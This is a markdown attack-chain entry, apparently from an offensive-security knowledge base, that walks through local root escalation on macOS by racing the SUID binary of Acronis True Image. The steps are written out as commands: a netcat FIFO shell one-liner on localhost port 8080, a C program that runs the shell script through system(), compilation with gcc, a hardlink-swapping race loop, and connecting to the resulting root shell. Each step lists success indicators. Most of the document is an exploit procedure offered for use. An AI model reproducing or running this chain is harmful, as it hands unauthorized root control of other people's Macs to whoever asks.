

---
tags:
  - race-condition
  - privilege-escalation
  - suid
  - macos
  - local-exploit
type: attack_chain
tools:
  - '[[tools/GCC-Compiler]]'
  - '[[tools/Python-Scripting]]'
  - '[[tools/Netcat]]'
tactics:
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - macOS
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Prepare-Reverse-Shell-Payload]]'
  - '[[procedures/Develop-Malicious-Binary]]'
  - '[[procedures/Compile-Malicious-Executable]]'
  - '[[procedures/Execute-Race-Condition-Exploit]]'
  - '[[procedures/Access-Root-Shell]]'
step_count: 5
techniques:
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Setuid and Setgid]]'
updated_at: '2025-12-14T17:28:59.046Z'
description: >-
  A multi-stage exploit leveraging a race condition in the SUID binary of
  Acronis True Image on macOS to achieve local privilege escalation to root via
  hardlink replacement and timed execution.
skill_level: intermediate
impact_level: high
id: 5e399ba5-12c9-44cb-95b1-e9a3fa72fb56
validated: true
mitre_tactics:
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Setuid and Setgid]]'
---
# Acronis True Image Race Condition for Local Privilege Escalation on macOS

Multi-stage attack chain demonstrating a complete local privilege escalation workflow exploiting a time-of-check-to-time-of-use (TOCTOU) race condition in the SUID binary of Acronis True Image on macOS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/GCC-Compiler]]
- [[tools/Python-Scripting]]
- [[tools/Netcat]]

### Target Environment

- macOS with Acronis True Image installed (SUID binary at '/Applications/Acronis True Image.app/Contents/MacOS/Acronis True Image')
- Local admin account access
- Writable directory for hardlinks and payloads
- Ports: 8080 (localhost)

### Initial Access Requirements

- Local user with admin privileges on the target macOS system
- No network access required (localhost reverse shell)
- Prior installation of Acronis True Image

## Detailed Attack Procedures

### Step 1: Prepare Reverse Shell Payload

procedure: [[procedures/Prepare-Reverse-Shell-Payload]]

**Objective**: Create a shell script that establishes a reverse shell listener on localhost port 8080 using netcat and a FIFO pipe for interactive bash access.

**Instructions**: Use [[commands/create-reverse-shell-script]] to generate the payload script:

```bash
echo "mkfifo myfifo;nc -l 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1" > shell
```

**Expected Output**: A file named 'shell' containing the reverse shell setup commands.

**Success Indicators**:
- 'shell' file created successfully
- Script contents verifiable with `cat shell`

### Step 2: Develop Malicious Binary

procedure: [[procedures/Develop-Malicious-Binary]]

**Objective**: Write a C program that executes the reverse shell payload and creates a success marker file upon invocation.

**Instructions**: Create 'test.c' with content that calls system("touch pass;bash shell") to trigger the payload.

**Expected Output**: 'test.c' source file ready for compilation.

**Success Indicators**:
- 'test.c' file exists
- Source code compiles without errors (verified in next step)

### Step 3: Compile Malicious Executable

procedure: [[procedures/Compile-Malicious-Executable]]

**Objective**: Compile the C program into an executable binary that will replace the legitimate 'console' binary during the race.

**Instructions**: Use [[commands/compile-test-binary]] to build the executable:

```bash
gcc test.c
```

**Expected Output**: Executable 'a.out' generated in the current directory.

**Success Indicators**:
- 'a.out' file exists and is executable (`ls -l a.out` shows permissions)
- No compilation errors

### Step 4: Execute Race Condition Exploit

procedure: [[procedures/Execute-Race-Condition-Exploit]]

**Objective**: Set up hardlinks to the SUID binary and 'console', then use a Python script to exploit the race by repeatedly executing the SUID binary, replacing 'console' with the malicious binary after validation, and restoring the original.

**Instructions**: Implement a Python script to create hardlinks (`ln /Applications/Acronis True Image.app/Contents/MacOS/Acronis True Image ./run` and `ln /usr/bin/console ./console`), then loop: execute `./run`, sleep briefly, replace `./console` with `./a.out`, sleep longer, restore `./console`, increment timing, and check for 'pass' file.

**Expected Output**: Successful race win indicated by creation of 'pass' file; reverse shell listener starts.

**Success Indicators**:
- 'pass' file appears (`ls pass`)
- No errors in Python script execution
- Port 8080 listener active (`netstat -an | grep 8080`)

### Step 5: Access Root Shell

procedure: [[procedures/Access-Root-Shell]]

**Objective**: Connect to the reverse shell to gain interactive root access on the target system.

**Instructions**: Use [[commands/connect-to-reverse-shell]] to interact with the payload:

```bash
nc 127.0.0.1 8080
```

**Expected Output**: Interactive bash shell prompt running as root (verify with `whoami` or `id`).

**Success Indicators**:
- Shell prompt appears
- Commands execute with root privileges (`sudo` unnecessary)

## Attack Chain Summary

### Key Achievements

1. Bypassed SUID verification via TOCTOU race condition using hardlinks in a writable directory.
2. Achieved arbitrary code execution as root from a local admin account.
3. Demonstrated full local privilege escalation without modifying system files permanently.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Setuid and Setgid]] Setuid and Setgid Binaries

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
